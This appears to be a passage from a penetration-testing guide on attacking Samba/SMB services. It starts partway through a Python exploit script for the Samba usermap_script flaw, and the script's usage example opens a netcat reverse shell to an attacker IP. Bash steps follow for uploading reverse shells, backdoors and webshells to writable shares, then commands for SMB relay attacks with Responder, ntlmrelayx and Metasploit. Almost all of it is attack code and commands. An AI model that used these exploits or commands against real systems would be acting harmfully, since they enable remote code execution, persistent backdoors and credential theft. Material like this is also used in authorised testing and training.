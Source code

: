 ```python
        print(f"Command executed: {command}")
        
    except Exception as e:
        print(f"Exploitation failed: {e}")

def main():
    if len(sys.argv) != 3:
        print("Usage: python3 samba_exploit.py <target-ip> '<command>'")
        print("Example: python3 samba_exploit.py 192.168.1.10 'nc -e /bin/sh 192.168.1.5 4444'")
        sys.exit(1)
    
    target = sys.argv[1]
    command = sys.argv[2]
    
    print(f"Exploiting Samba usermap_script vulnerability on {target}")
    print(f"Command to execute: {command}")
    
    exploit_samba_usermap(target, command)

if __name__ == "__main__":
    main()
```

### Method 2: Share-based Exploitation

#### Writable Share Access
```bash
# Check for writable shares
smbmap -H <target-ip> -R

# Connect to writable share
smbclient //<target-ip>/writable_share -N

# Upload reverse shell
put reverse_shell.php
put backdoor.jsp
put webshell.aspx
```

#### SMB Relay Attack
```bash
# Using Responder and ntlmrelayx
responder -I eth0 -A

# In another terminal
ntlmrelayx.py -tf targets.txt -smb2support

# Or using Metasploit
use auxiliary/server/capture/smb
set SRVHOST <your-ip>
run
```
